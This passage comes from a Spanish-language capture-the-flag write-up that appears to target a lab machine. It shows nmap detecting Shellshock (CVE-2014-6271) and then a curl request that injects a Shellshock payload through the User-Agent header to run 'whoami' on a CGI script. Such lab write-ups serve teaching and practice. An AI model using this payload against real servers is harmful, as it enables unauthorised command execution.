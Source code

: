 ```bash
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.13 seconds
```
Aqui la página de **nmap** de donde saque el script:

* https://nmap.org/nsedoc/scripts/http-shellshock.html

Y es vulnerable, vamos a utilizar este ataque para ganar acceso a la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Shellshock3">Aplicando Ataque Shellshock</h2>

Después de leer el siguiente artículo:

* https://blog.cloudflare.com/inside-shellshock/

Utilizaremos la herramienta **curl** para usar el **ataque ShellShock**, hagamos una prueba:
```bash
curl -H "User-Agent: () { :; }; /usr/bin/whoami" 'http://10.10.10.56/cgi-bin/user.sh'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```
